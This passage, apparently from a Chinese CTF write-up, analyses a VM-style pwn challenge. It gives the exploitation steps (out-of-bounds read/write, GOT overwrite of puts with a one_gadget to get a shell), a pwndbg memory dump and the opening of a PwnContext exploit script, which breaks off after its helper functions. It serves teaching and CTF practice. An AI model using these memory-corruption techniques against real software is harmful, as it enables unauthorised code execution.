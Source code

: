 ```
          if ( (_DWORD)v46 != 17 )
            return 1LL;
          a1-&gt;_ebp = num_2;
          v16 = a1-&gt;_eip;
        `}`
      `}`
      goto LABEL_26;
```

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E8%BF%87%E7%A8%8B"></a>利用过程

通过调试我们一直VM stack位于bss段上方0x1000处，而且由于Run函数中对于判断条件设置有误，导致我们可以越界读写内存。

因此，我们利用思路如下：
1. 利用越界读写，使用mov将bss段地址写到vm 寄存器中。
1. 由于got表可写，利用sub功能，将vm寄存器中的bss段地址，减去对应偏移，对应到puts_got。
1. 利用mov功能，将stack的地址改为puts_got地址。
1. 利用mov功能，将puts_got地址对应的libc地址地位赋给vm寄存器
1. 然后利用sub功能，减去偏移得到对应的one_gadget地址。
1. 利用mov功能，覆盖puts_got为one_gadget地址，get shell。
调试一下vm stack地址以及大小

```
pwndbg&gt; x/20xg $node
0x5555557570c0: 0x0000555555759010      0x00005555557560c0 # stack位于bss上方0x1000处
0x5555557570d0: 0x0000300000001000      0xffffffffffffffff # stack地址大小为0x1000
0x5555557570e0: 0xffffffffffffffff      0xffffffffffffffff
0x5555557570f0: 0xffffffffffffffff      0xffffffffffffffff
0x555555757100: 0xffffffffffffffff      0xffffffffffffffff
0x555555757110: 0xffffffffffffffff      0xffffffffffffffff
0x555555757120: 0xffffffffffffffff      0xffffffffffffffff
0x555555757130: 0xffffffffffffffff      0xffffffffffffffff
0x555555757140: 0xffffffffffffffff      0xffffffffffffffff
0x555555757150: 0xffffffffffffffff      0xffffffffffffffff
pwndbg&gt; x/20xg $R
0x5555557574d8: 0x0000000000000000      0x0000000000000000
0x5555557574e8: 0x0000000000000000      0x0000000000000000
0x5555557574f8: 0x0000000000000000      0x0000000000000000
0x555555757508: 0x0000000000000000      0x0000000000000000
0x555555757518: 0x0000000000000000      0x0000000000001008
0x555555757528: 0x0000000000000000      0x0000000000000000
0x555555757538: 0x0000000000000000      0x0000000000000000
0x555555757548: 0x0000000000000000      0x0000000000000000
0x555555757558: 0x0000000000000000      0x0000000000000000
```

exp如下，利用过程参照注释，试环境ubuntu 16.04：

```
#https://github.com/matrix1001/welpwn
from PwnContext import *

try:
    from IPython import embed as ipy
except ImportError:
    print ('IPython not installed.')

if __name__ == '__main__':        
    context.terminal = ['tmux', 'splitw', '-h']
    context.log_level = 'debug'
    # functions for quick script
    s       = lambda data               :ctx.send(str(data))        #in case that data is an int
    sa      = lambda delim,data         :ctx.sendafter(str(delim), str(data)) 
    sl      = lambda data               :ctx.sendline(str(data)) 
    sla     = lambda delim,data         :ctx.sendlineafter(str(delim), str(data)) 
```